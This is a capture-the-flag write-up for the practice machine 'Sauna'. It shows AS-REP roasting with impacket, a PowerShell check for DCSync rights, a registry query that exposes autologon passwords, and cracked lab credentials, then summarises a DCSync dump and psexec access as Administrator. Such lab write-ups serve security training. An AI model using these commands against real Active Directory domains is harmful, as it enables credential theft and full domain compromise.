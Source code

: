 # Sauna

### Reconnaissance

[Nmap scan](./sauna.nmap)

**port 53**

Simple DNS Plus (check)

Discovered domain name `EGOTISTICAL-BANK.LOCAL` from nmap scan

`dig EGOTISTICAL-BANK.LOCAL @10.10.10.175`

![a_record](./img/a_record.png)

DNS queries allowed

Querying ANY records for the domain shows two additional subdomains, `sauna` and `hostmaster`

`dig ANY EGOTISTICAL-BANK.LOCAL @10.10.10.175`

![subdomains](./img/subdomains.png)

Zone transfer failed on the domain and subdomains

**port 80**

Egotistical Bank's website running on Microsft IIS 10.0

`curl -IL http://10.10.10.175`

![IIS Server versin](./img/iis_server.png)

gobuster didn't find anything useful on any of the subdomains

Contact form returns a 405 when submitting on all domains and subdomains

Pictures of team members with names:
- Fergus Smith
- Hugo Bear
- Steven Kerb
- Shaun Coins
- Bowie Taylor
- Sophie Driver

**port 389**

Discovered object `Hugo Smith` using ldapsearch, doesn't appear to be a valid user

**port 445**

Anonymous access enabled, no shares visible

**port 5985**

WinRM

### Initial Access

Generate plausible usernames from the team members on the website using a python script ([usernames.py](./usernames.py)) 
and ASREPROAST

```bash
python3 ./usernames.py "Fergus Smith,Hugo Bear,Steven Kerb,Shaun Coins,Bowie Taylor,Sophie Driver" > unames.txt
for u in $(cat unames.txt); do impacket-GetNPUsers egotistical-bank.local/"$u" -no-pass -dc-ip 10.10.10.175;done
```

ASREPROAST and crack hash

fsmith:Thestrokes23

### Privilege Escalation

Manually check for privileges required for DCSync (article [here](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)):

```
$user = "username"
(Get-Acl "ad:\dc=domain,dc=local").Access | ? {$_.IdentityReference -match $user -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

Autologon creds found with winPEAS

svc_loanmanager:Moneymakestheworldgoround!

Account name had changed to svc_loanmgr but password works

DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges on svc_loanmgr

DCSync attack to dump domain user hashes

psexec as Administrator

### Lessons Learned

- When looking at websites hosted on the target look at every page
- Create user wordlists from target employee's names
- Autologon exposes passwords (WinPEAS or by querying registry `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON"
`)

